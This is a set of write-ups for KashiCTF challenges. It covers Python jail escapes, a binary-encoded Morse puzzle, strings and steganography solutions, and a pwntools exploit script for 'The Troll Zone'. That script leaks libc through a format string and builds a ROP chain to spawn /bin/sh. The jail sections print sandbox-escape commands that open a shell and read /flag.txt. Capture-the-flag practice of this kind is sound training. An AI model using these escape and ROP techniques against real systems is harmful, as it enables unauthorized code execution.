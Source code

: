 # KashiCTF

# By bytecodesky

# Easy Jail 2 - Writeup

## Description
The challenge consists of escaping a Python sandbox (PyJail) to execute arbitrary system commands and read the flag.
## Analysis
The challenge environment restricts the execution of certain commands and modules. However, since we have an interactive Python session, we can look for ways to bypass these restrictions and execute arbitrary code.

## Exploitation
I discovered that the breakpoint() function could be used to access Python's interactive debugger. From there, it is possible to import modules like os and execute system commands.

The final exploit was:
```python
breakpoint()
import os; os.system("sh")
```
This gave us an interactive shell, allowing us to run:
```bash
cat /flag.txt
```
## Conclusion

Using `breakpoint()` allowed access to an interactive debugger, which enabled arbitrary command execution, making it possible to escape the sandbox and retrieve the flag.

# By m3tadr0id

# Lost Frequencies (CRYPTO)


### Description:

> Zeroes, ones, dots and dashes  
> Data streams in bright flashes

Given data:

```
111 0000 10 111 1000 00 10 01 010 1011 11 111 010 000 0
```

---

## Solution:

### Step 1: Recognizing the Pattern

The challenge hints at a connection between binary digits (0s and 1s) and Morse code due to the reference to "dots and dashes."

### Step 2: Interpreting the Data

Binary sequences like `111` and `0000` could represent Morse code elements:

- `1` can correspond to a dash (`-`)
- `0` can correspond to a dot (`.`)

Using this pattern, we attempted to decode the binary sequence into Morse code.

### Step 3: Decoding Morse Code

We used [dCode's Morse Code Decoder](https://www.dcode.fr/morse-code) to translate the extracted Morse code into readable text.

![Pasted image 20250224225632](./images/7724cc35-a1c6-4aa2-a9fd-fbd0f7d6309e.png)


`KashiCTF{OHNOBINARYMORSE}`


### Game 1 - Untitled Game (Reverse)

Running `strings` on the binary immediately revealed the flag:

![Pasted image 20250224230030](./images/bf6e4dc2-4298-42aa-8f30-a6d507b3b09f.png)

`KashiCTF{N07_1N_7H3_G4M3}`

### Look at Me (Dfir)

### Description:

> There is something wrong with him... What can it be??

We were given an image that reminded me of the software SilentEye, a tool used for steganography analysis.

### Solution:

Using SilentEye,  I analyzed the image and extracted hidden data. The decoded message revealed the flag:


![Pasted image 20250224230554](./images/361d39c5-939f-4d84-b09f-a1e8b59d74a7.png)


`KashiCTF{K33p_1t_re4l}`

# The Troll Zone

```py
from pwn import *
context.arch="amd64"
p=remote("kashictf.iitbhucybersec.in",65239)
libc=ELF("libc.so.6")
p.sendlineafter("? ","%17$p")
p.recvuntil("Lmao not giving you ")
libc.address=int(p.recvline(keepends=False),16) -0x2724a
print(f"{hex(libc.address)=}")
p.sendlineafter("at? ",b'a'*0x28+p64(0x0040123f)+p64(next(libc.search(asm('pop rdi; ret'), executable=True)))+p64(libc.search(b'/bin/sh').__next__())+p64(libc.sym['system']))
p.interactive()
```
# By `superman_.22`

- easy jail 1
    - `__import__('os').system('cat /flag.txt')`

![easyjail1.png](./images/easyjail1.png)

- `MemorieBringBackYou` and `Corruption`
    - Just grep

![corruption.png](./images/corruption.png)

![MemorieBringBackYou](./images/Memory.png)